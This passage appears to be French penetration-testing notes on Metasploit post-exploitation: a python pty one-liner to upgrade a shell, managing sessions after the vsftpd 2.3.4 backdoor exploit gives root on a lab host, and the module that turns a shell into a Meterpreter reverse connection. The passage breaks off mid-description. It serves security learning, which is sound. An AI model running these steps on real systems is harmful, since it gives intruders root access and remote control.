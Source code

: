 Lorsque l'on obtient un shell un peu minimaliste à travers un exploit. On peut utiliser la commande suivante pour avoir un shell un peu plus classe. 

```sh
python -c "import pty;pty.spawn('/bin/bash')"
```

(Il est parfois nécessaire de préciser la version de python : `python2` ou `python3`).

### Les sessions

Un shell ou **session** peuvt être mis en arrière plan avec la commande `background` ou le raccourci _Ctrl + Z_.

On peut lister les sessions avec la commande `sessions`.

```sh
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               0.0.0.0:0 -> 172.16.237.130:6200 (172.16.237.130)
```

On peut récupérer une session interactive avec la commande `session -i`.

```sh
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > sessions -i 1
[*] Starting interaction with 1...

whoami
root
```

## Passer à un Shell Meterpreter

```sh
msf6 post(linux/gather/hashdump) > use post/multi/manage/shell_to_meterpreter 
msf6 post(multi/manage/shell_to_meterpreter) > info

       Name: Shell to Meterpreter Upgrade
     Module: post/multi/manage/shell_to_meterpreter
   Platform: Linux, OSX, Unix, Solaris, BSD, Windows
       Arch: 
       Rank: Normal

Provided by:
  Tom Sellers <tom@fadedcode.net>

Compatible session types:
  Shell

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
  LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
  LPORT    4433             yes       Port for payload to connect to.
  SESSION                   yes       The session to run this module on.

Description:
  This module attempts to upgrade a command shell to meterpreter. The 
  shell platform is automatically detected and the best version of 
  meterpreter for the target is selected. Currently 
```